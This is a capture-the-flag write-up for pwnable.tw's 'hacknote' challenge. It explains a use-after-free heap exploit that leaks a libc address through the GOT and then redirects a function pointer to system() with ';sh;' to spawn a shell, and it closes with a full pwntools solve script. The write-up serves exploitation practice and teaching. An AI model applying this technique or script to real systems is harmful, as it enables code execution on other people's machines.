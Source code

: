 # pwnable.tw - hacknote

Original challenge link: https://pwnable.tw/challenge/#5

##  Overview

For every created note, the program first mallocs 8 bytes, and stores the address in bss (address referred to as note_ptrs here.) In the 8 bytes (referred to as notes metadata from now on), first 4 bytes are address of a printer_stub, that prints note contents. Next 4 bytes are actual location of string which is malloc'd separately, based on the note length we ask it to use.

When a note is printed, it just dereferences stored pointer in note_ptrs, and calls printer_stub with address of the pointer to notes_metadata. It just skips 4 bytes, and passes the next 4 bytes to puts().

In delete, both notes metadata and string content is freed. However, the vulnerability here is that the pointer to notes_metadata in note_ptrs array is not deleted. This leads to Use-After-Free exploit chain.

## Ideation

The goal should be clear, faking a note's metadata, so we can use our custom func thats called during print, and custom string pointer. 

Generally, if we free a chunk in heap, it can be reused immediatly if malloc demands smaller or equal size buffer.

Lets see what happens if we create 2 notes - 
```
<8 byte note 0 metadata><8 byte malloc metadata>
<note 0 content><8 byte malloc metadata>
<8 byte note 1 metadata><8 byte malloc metadata>
<note 1 content><8 byte malloc metadata>
```

My first idea was to free both notes, and create a new note, with longer content length. I assumed that since everything is freed, glibc would have merged the unsed chunks. But the issue is the 8 byte note 1 metadata, which is smaller and seemed to block merging of larger blocks. The 3rd note's metadata would be stored in note 0's metadata, but the content would be issued after note 1 content. 

So we had to somehow cause an equal size malloc that would get allotted a deleted note's metadata as content.


## Exploit
After a bit of brainstorming, I found that chunk requests larger than current heap segment are issued a separate segment and stored at different address.

So if i create 2 notes of length 1000000, only metadata will be present in heap like this - 

```
heap:
    <8 byte note 0 metadata><8 byte malloc metadata>
    <8 byte note 1 metadata><8 byte malloc metadata>

note_ptrs: <heap> <heap+16>
```

Notice that both are result of malloc(8), and if freed, can be reissued if a new request for malloc(8) comes. This is what we wanted.

Now we free both notes, and create a new note with length 8, it will call malloc(8) for metadata, which will get note 0 metadata addr, and then malloc(8) for content, which will get note 1 metadata addr. 

Now, whatever we can write 8 bytes into the new note, which is exactly the same address as note_1 metadata. So we write first 4 bytes as same print_stub addr, but replace next 4 bytes address of GOT puts. 

```py
### malloc chunks larger than current heap
add(1000000, b"hahaha")
add(1000000, b"lmaoooo")
delete(1)
delete(0)

add(8, p32(print_stub)+p32(exe.got["puts"])) 
```

Now if you notice the note_ptrs, it becomes - 
```
note_ptrs: <heap> <heap+16> <heap>

heap:
    <8 byte note 2 metadata><8 byte malloc metadata>
    <addr of print_stub><addr of got puts><8 byte malloc metadata>
 
```
idx 1 is still pointing to heap+16, which is now the content of our 3rd (idx 2) note. So now if we print note 1, it will call print_stub(heap+16), which in turn will call puts(heap+20) and will leak the libc address.

Now with libc leak, we do the same metadata corruption again, but this time, replace print_stub address with libc system() func.

```py
delete(0)
add(8, p32(libc.sym["system"])+b";sh;") 
```

Now when print is chosen from menu for idx 1, it will call heap+16 func which is system and pass heap+16 as parameter, making final call - `system("<4byte addr>;sh;")`

4 byte address will just cause command not found, it doesnt cause any crash, and system execustes sh, giving us the shell.





## Solve Script
```py
from pwn import *
import time

exe = ELF("./hacknote_patched")
libc = ELF("./libc_32.so.6")
ld = ELF("./ld-2.23.so")

context.binary = exe
context.log_level = 'debug'
context.terminal = ['wt.exe', 'wsl.exe', '-d', 'kali-linux']

def conn():
    if args.REMOTE:
        r = remote("chall.pwnable.tw", 10102)
    else:
        r = process([exe.path])
        if args.GDB:
            gdb.attach(r)
            time.sleep(2)
    return r

p = conn()
print_stub = 0x804862b # default print function used for every note

def add(size, content):
    p.sendlineafter(b"choice :", b"1")
    p.sendlineafter(b"size :", str(size).encode())
    p.sendafter(b"Content :", content)

def delete(idx):
    p.sendlineafter(b"choice :", b"2")
    p.sendlineafter(b"Index :", str(idx).encode())

### malloc chunks larger than current heap
add(1000000, b"hahaha")
add(1000000, b"lmaoooo")
delete(1)
delete(0)

add(8, p32(print_stub)+p32(exe.got["puts"])) 

#leak libc puts
p.sendlineafter(b"choice :", b"3")
p.sendlineafter(b"Index :", b"1")
libc.address = u32(p.recv(4)) - libc.sym["puts"]
log.info(f"leaked puts addr - {hex(libc.sym["puts"])}")

### overwrite print_stub with system(), and add payload in next 4 bytes
delete(0)
add(8, p32(libc.sym["system"])+b";sh;") 
p.sendlineafter(b"choice :", b"3")
p.sendlineafter(b"Index :", b"1")
p.interactive()

```